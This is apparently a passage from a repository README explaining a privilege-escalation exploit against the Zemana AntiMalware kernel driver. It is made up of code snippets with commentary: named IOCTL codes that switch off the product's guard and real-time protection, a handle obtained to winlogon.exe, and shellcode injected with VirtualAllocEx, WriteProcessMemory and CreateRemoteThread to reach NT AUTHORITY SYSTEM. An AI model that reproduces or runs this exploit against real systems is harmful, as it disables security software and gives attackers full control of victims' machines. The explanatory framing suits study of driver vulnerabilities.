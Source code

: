 ```c++

	printf("[+] We Are Now NT AUTHORITY SYSTEM");
	return 0;
}
```
### Step-by-Step Explanation:

#### 1. Obtaining Device Driver Handle
```cpp
hDevice = CreateFileA("\\\\.\\ZemanaAntiMalware", GENERIC_READ | GENERIC_WRITE , NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```
The code attempts to acquire a handle (`hDevice`) to the Zemana AntiMalware device driver using `CreateFileA()` function. This step is crucial for interacting with the driver to perform certain actions, but it assumes the existence of a vulnerable or exploitable interface within the driver.

#### 2. Disabling ZAM Guard and Real-Time Protection
```cpp
disbleZAM = DeviceIoControl(hDevice, 0x80002064, NULL, sizeof(exploitPID), NULL, 0, NULL, NULL);
disbleRealTime = DeviceIoControl(hDevice, 0x80002090, NULL, sizeof(exploitPID), NULL, 0, NULL, NULL);
```
The code tries to disable ZAM Guard and Real-Time Protection using `DeviceIoControl()`. It sends IOCTL commands to the driver with specific codes (`0x80002064` and `0x80002090`) to disable these protections. This assumes that the driver has exposed functionalities that can be manipulated for this purpose.

#### 3. Manipulating Winlogon Process
```cpp
winlogonPID = GetProcessPIDByName("winlogon.exe");
```
This retrieves the Process ID (PID) of the "winlogon.exe" process.

```cpp
success = DeviceIoControl(hDevice, 0x8000204c, &winlogonPID, sizeof(DWORD), &hWinlogon, sizeof(DWORD), NULL, NULL);
```
The code communicates with the driver to interact with the Winlogon process, acquiring a handle (`hWinlogon`) to it, assuming that it has privileges to perform these operations.

```cpp
destMem = VirtualAllocEx(hWinlogon, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
This allocates memory within the Winlogon process, where arbitrary code can be written.

```cpp
success = WriteProcessMemory(hWinlogon, destMem, &shellcode, sizeof(shellcode), &written);
```
It writes a piece of shellcode (typically used for payload execution) to the allocated memory space within the Winlogon process.

#### 4. Executing Arbitrary Code
```cpp
success = CreateRemoteThread(hWinlogon, NULL, 0, (LPTHREAD_START_ROUTINE)destMem, NULL, 0, NULL);
```
This attempt to spawn a system shell by creating a remote thread in the Winlogon process, executing the loaded shellcode. This step is a common technique for running arbitrary code within a different process, often leading to privilege escalation.
